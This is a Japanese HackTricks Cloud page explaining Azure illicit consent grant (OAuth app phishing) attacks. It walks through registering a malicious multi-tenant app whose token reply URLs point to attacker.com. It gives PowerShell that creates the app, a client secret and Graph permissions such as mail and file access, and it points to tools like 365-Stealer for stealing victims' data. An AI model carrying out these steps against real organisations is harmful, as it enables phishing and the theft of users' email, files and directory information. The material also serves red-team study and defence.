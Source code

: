 # Az - 不正な同意付与

<details>

<summary><strong>AWSのハッキングをゼロからヒーローまで学ぶには</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>をチェック！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>

## OAuthアプリフィッシング

**Azureアプリケーション**は、**ユーザーデータ**へのアクセス権限を要求します（基本情報だけでなく、ドキュメントへのアクセス、メールの送信など）。\
**許可された場合**、通常のユーザーは**「低影響」の権限**にのみ同意を与えることができます。**その他のすべて**の場合、**管理者の同意が必要です**。\
`GA`、`ApplicationAdministrator`、`CloudApplication` `Administrator`、および`アプリケーションへの権限付与の権限を含むカスタムロール`は、テナント全体の同意を提供することができます。

**管理者の同意が不要**とされる権限のみが**低影響**と分類されます。これらは、**基本的なサインインに必要なopenid、profile、email、User.Read、offline\_access**です。**組織が**すべてのアプリに対するユーザー同意を**許可している**場合、従業員はアプリに自分のプロファイルから上記を**読むための同意を与えることができます。

<figure><img src="../../../.gitbook/assets/image (3) (2) (1).png" alt=""><figcaption></figcaption></figure>

したがって、攻撃者は**悪意のあるアプリ**を準備し、**フィッシング**によってユーザーにアプリを**受け入れさせ、彼のデータを盗む**ことができます。

### ユーザーが同意を許可されているか確認する

アプリへの同意がユーザーに許可されているか確認します：

{% code overflow="wrap" %}
```powershell
PS AzureADPreview> (GetAzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole
```
{% endcode %}

* **ユーザーの同意を無効にする** : ユーザーはアプリケーションへの権限を付与することができません。
* **ユーザーは、選択した権限について、検証済みのパブリッシャーまたはあなたの組織のアプリに同意できます** : すべてのユーザーは、検証済みのパブリッシャーによって公開されたアプリ、またはあなたのテナントに登録されたアプリにのみ同意できます。
* **ユーザーはすべてのアプリに同意できます** : 管理者の同意が必要でない任意の権限に対して、すべてのユーザーが同意できるようにします。
* **カスタムアプリ同意ポリシー**

## **不正な同意付与攻撃とは何ですか？**

不正な同意付与攻撃では、攻撃者は**連絡先情報、メール、またはドキュメントなどのデータへのアクセスを要求するAzure登録アプリケーションを作成します**。その後、攻撃者はエンドユーザーをだましてアプリケーションに同意させ、攻撃者がターゲットユーザーがアクセスできるデータにアクセスできるようにします。アプリケーションに同意が与えられた後、組織アカウントを必要とせずに、ユーザーアカウントレベルでデータにアクセスできます。

簡単に言うと、被害者が「同意する」という美しい青いボタンをクリックすると、Azure ADは第三者のサイトにトークンを送信します。このサイトは攻撃者が所有しており、攻撃者は被害者に代わって行動を実行するためにトークンを使用します。例えば、すべてのファイルにアクセスしたり、メールを読んだり送ったりすることができます。

## **攻撃の流れ**

<figure><img src="../../../.gitbook/assets/image (13) (1) (1).png" alt=""><figcaption></figcaption></figure>

この攻撃を会社「ecorp」に対して実行するために、攻撃者は「safedomainlogin.com」という名前のドメインを登録し、認証コードをキャプチャするアプリケーションをホストするためのサブドメイン["ecorp.safedomainlogin.com"](http://ecorp.safedomainlogin.com/)を作成しました。

次に、攻撃者は自分のAzure ADテナントにマルチテナントアプリケーションを登録し、「ecorp」と名付け、認証コードをキャプチャするアプリケーションをホストする「ecorp.safedomainlogin.com」を指すリダイレクトURLを追加しました。

攻撃者は新しいクライアントシークレットを作成し、`Mail.Read`、`Notes.Read.All`、`Files.ReadWrite.All`、`User.ReadBasic.All`、`User.Read`などのAPI **権限**をアプリケーションに追加しました。これにより、**ユーザーがアプリケーションに同意を与えると**、攻撃者はユーザーに代わって**機密情報を抽出**することができます。

最終的に、攻撃者は悪意のあるアプリケーションのクライアントIDを含む**リンク**を作成し、**対象のユーザー**に共有して同意を得るために使用しました。

## 365-Stealer

この攻撃は[**365-Stealer**](https://github.com/AlteredSecurity/365-Stealer)を使用して実行できます。

追加のステップとして、被害者組織のユーザーに対するある程度の**アクセスがある場合**、そのポリシーがユーザーにアプリへの**同意を許可するかどうか**を確認できます。
```powershell
Import-Module .\AzureADPreview\AzureADPreview.psd1
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("test@corp.onmicrosoft.com", $passwd)
Connect-AzureAD -Credential $creds
(Get-AzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole
# If "ManagePermissionGrantsForSelf.microsoft-user-default-legacy", he can
```
この攻撃には、例えば以下の権限を持つ**新しいAzureテナント内アプリ**（アプリ登録で）を作成する必要があります：

<figure><img src="../../../.gitbook/assets/image (2) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

`User.ReadBasic.All`は`Microsoft Graph`の`Delegated permissions`にあります。（アプリケーション権限は常に追加の承認が必要です）。

* `User.ReadBasic.All`は、付与された場合、組織内の**すべてのユーザー情報を読む**ことを可能にする権限です。
* `GA`、`ApplicationAdministrator`、`CloudApplication` `Administrator`、または`アプリケーションに権限を付与する権限を含むカスタムロール`のみがテナント全体の同意を提供できることを覚えておいてください。したがって、**管理者の同意が必要なアプリ**を承認してもらいたい場合は、これらの役割のいずれかを持つユーザーを**フィッシングする**必要があります。

また、以下のようにCLIを使ってアプリを作成することもできます：

{% code overflow="wrap" %}
```bash
# Generate Application
New-AzureADApplication -DisplayName "MyApp"  -ReplyUrls @("https://attacker.com", "https://attacker.com/gettoken") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true

# Generate Secret
New-AzureADApplicationPasswordCredential -ObjectId f76ebd35-xxxx-xxxx-xxxx-xxxxxxxxxxxx -CustomKeyIdentifier "MyAppSecret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

# Generate an application with the permissions
$objectid=New-AzureADApplication -DisplayName "AppName"  -ReplyUrls @("https://example.com/login/authorized") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true | select-object ObjectId
New-AzureADApplicationPasswordCredential -ObjectId $objectid.ObjectId -CustomKeyIdentifier "secret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

$AppObjectID = $objectid.ObjectId # object id in AD
$app = Get-AzureADApplication -ObjectId $AppObjectID
$AADAccess = $app.RequiredResourceAccess | Where-Object {$_.ResourceAppId -eq "00000003-0000-0000-c000-000000000000"}  # "00000003-0000-0000-c000-000000000000" represents Graph API
if($AADAccess -eq $null) {
$AADAccess = New-Object Microsoft.Open.AzureAD.Model.RequiredResourceAccess
$AADAccess.ResourceAppId = "00000003-0000-0000-c000-000000000000"

$Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access.Type = "Scope"
$Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
$AADAccess.ResourceAccess = @()
$AADAccess.ResourceAccess.Add($Access)

$Access2 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access2.Type = "Scope"
$Access2.Id = "e1fe6dd8-ba31-4d61-89e7-88639da4683d"
$AADAccess.ResourceAccess.Add($Access2)

$Access3 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access3.Type = "Scope"
$Access3.Id = "df85f4d6-205c-4ac5-a5ea-6bf408dba283"
$AADAccess.ResourceAccess.Add($Access3)

$Access4 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access4.Type = "Scope"
$Access4.Id = "10465720-29dd-4523-a11a-6a75c743c9d9"
$AADAccess.ResourceAccess.Add($Access4)

$app.RequiredResourceAccess.Add($AADAccess)
} else {
$Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access.Type = "Scope"
$Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
$AADAccess.ResourceAccess = @()
$AADAccess.ResourceAccess.Add($Access)

$Access2 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access2.Type = "Scope"
$Access2.Id = "e1fe6dd8-ba31-4d61-89e7-88639da4683d"
$AADAccess.ResourceAccess.Add($Access2)

$Access3 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access3.Type = "Scope"
$Access3.Id = "df85f4d6-205c-4ac5-a5ea-6bf408dba283"
$AADAccess.ResourceAccess.Add($Access3)

$Access4 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access4.Type = "Scope"
$Access4.Id = "10465720-29dd-4523-a11a-6a75c743c9d9"
$AADAccess.ResourceAccess.Add($Access4)
}

Set-AzureADApplication -ObjectId $AppObjectID -RequiredResourceAccess $app.RequiredResourceAccess
Get-AzureADApplication -ObjectId $objectid.ObjectId | select-object appid
```
```markdown
{% endcode %}

[https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer) で設定方法を学びましょう。

{% hint style="warning" %}
取得した**アクセストークン**は、スコープが `User.Read` と `User.ReadBasic.All`（要求された権限）である**グラフエンドポイント**用です。他のアクションを実行することはできませんが（しかし、組織内の全ユーザーに関する情報を**ダウンロードする**には十分です）。
{% endhint %}

## [O365-Attack-Toolkit](https://github.com/mdsecactivebreach/o365-attack-toolkit)

このツールを使用してこの攻撃を実行することもできます。

## 侵害後の活動

ユーザーへのアクセスを得たら、機密文書の盗難やバックドアが仕込まれた文書ファイルのアップロードなどを行うことができます。

## 参考文献

* この投稿は [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer) からコピーされました

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) で</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>AWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksにあなたの**会社を広告したい、または**HackTricksをPDFでダウンロード**したい場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手してください
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)コレクションをチェックしてください
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加するか**、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) を**フォロー**してください。
* [**HackTricks**](https://github.com/carlospolop/hacktricks) および [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) githubリポジトリにPRを提出して、あなたのハッキングのコツを**共有**してください。

</details>
```
